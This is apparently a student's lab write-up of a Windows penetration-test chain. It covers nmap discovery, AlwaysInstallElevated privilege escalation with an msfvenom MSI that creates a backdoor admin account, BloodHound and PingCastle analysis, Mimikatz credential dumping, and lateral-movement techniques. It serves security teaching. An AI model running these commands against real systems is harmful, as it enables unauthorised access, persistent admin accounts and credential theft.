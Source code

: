 # Windows Attack example
Based on lab tasks: Maintaining access and Lateral Movement

**Premise**
We have already gained access (infected 2 machines): 
- a linx machine
- a windows machine
    - with ad user tmassie (without local admin rights)
    - tools like Mimikatz, etc. are available 
        - (in a real environment, these tools would be detected)



## 1. Basics, Host + Service discovery
From the Linux machine, we perform analysis of the network
1. `ip -c address list eth0`  (as root): we get our IP and network address
2. Host discovery via Nmap 
    - `nmap -n -Pn --top-ports=10 10.0.1.0/24 -oA nmap_winlab_host_discovery --min-rate=5000` (will write result into file because of -oA)
        - -n -> no DNS resolution
        - --min-rate=5000 -> set a minimum rate to guarantee a timely result
    - `cat nmap_winlab_host_discovery.gnmap | awk '/Up/ {print $2}' | sort -Vu > hosts_winlab.txt` 
        - take result from nmap scan and write ip's into a file (`cat cat hosts_winlab.txt`)
3. Service discovery
    - `nmap -n -sC -sV -iL hosts_winlab.txt -oA nmap_winlab_script_version_scan --min-rate=5000` takes list of Ips and runs service discovery (via -iL param)
        - sC -> Script Scan -> Runs default scripts against known services
        - -sV -> Service/Version detection -> Tries to determine service/version for open ports

## Situational awareness and privilege escalation to local admin

**Windows configuration check with PrivescCheck**
Run PrivescCheck ( https://github.com/itm4n/PrivescCheck ) to get info about windows configuration. 
1. `powershell -exec bypass`
2. `cd C:\temp\tools\PrivescCheck\`
3. `Import-Module .\PrivescCheck.ps1`
4. `Invoke-PrivescCheck` -> we get result with configuration issues. 
    - We might see something like: "CONFIG > WSUS Configuration" or "CONFIG > AlwaysInstallElevated"

**Privilege escalation vie AlwaysInstalledElevated**
We assume the the PrivescCheck has shown we are vulnerable AlwaysInstalledElevated
(allows to run MSI as admin https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated). 
Our goal is now create an msi that creates a local admin and run it. 

1. Create msi metasploit/msfvenom (on linux)
    - `msfvenom -p windows/x64/exec CMD='cmd.exe /k "net user /add hacker Hacker@Work && net localgroup administrators hacker /add"' -f msi > useradd.msi`
        - will create a msi file "useradd.msi" that runs the following code: "net user /add hacker Hacker@Work && net localgroup administrators hacker /add"$
        - User to be created: "hacker" with password "Hacker@Work"
2. Copy file to windows machine
    - any means is possible (web attachment, file share etc.)
    - one way is gosh, as small webserver: https://github.com/patrickhener/gosh (see lab task)
    - attention: when downloading on windows machine, one might have to click away warning
3. Run created msi on linux
    - just run created msi (click away warning) and user is created (even if installer seems to abort)
4. Check
    - run `net user` and `net user hacker` to see if creation was successful
5. run as local admin (hacker)
    - start cmd as admin, pop up will show and we can enter credentials ("hacker", "Hacker@Work")
    - now we can run commands as local admin
        `whoami /groups?` -> we see that our user is in Administrator group and by "Mandatory label\High Mandatory Level" we see it runs in elevated mode

## Active directory info gathering & analysis

1. Runs PingCastle `.\PingCastle.exe` and choose healthcheck to generate result as html. 
https://www.pingcastle.com/PingCastleFiles/ad_hc_rules_list.html


2. Run bloodhound to find potential paths to domain admin
    - collect AD data and import it into bloodhound (for example via SharpHound)
    - find path to domain admin (or whatever we would like to do)
    - *see lab tasks "Maintain Access/AD Information Gathering & Analysis" or "Bloodhound_AD.md*

## Get other credentials from LSASS/SAM 
Using Mimimkatz, we can now get credentials of other (currently logged on) users. (or some other tool would be possible too)
Via Mimikatz we can get credentials (NTLM hashes) from
- LSASS process (AD accounts)
- SAM process (local accounts)
If we get new credentials, we can afterwards update Bloodhound paths (owned flag) to see how much closer we got to our target.

*see lab tasks "Maintain Access/Credential Dumping on Windows 10 Client" or "Mimikatz_Credentials.md*


## Varia/Random
Usually, these steps might have to be applied multiple times (in rounds). Example: from a machine we escalate to local admin, to get AD credentials of another user so we can jump to another machine, to which other users are logged in etc. etc.

## Lateral movement
Various possibilities

- Based on NTLM 
    - pass-the-hash
    - NTLM relay (man-in-the-middle)
    - break NTLM hash (as not that strong)
- Password spraying (get password)

 - bypass firewalls, prevent inspection,  prevent being detected
    - Port forwarding
    - SOCKS Pivoting (???)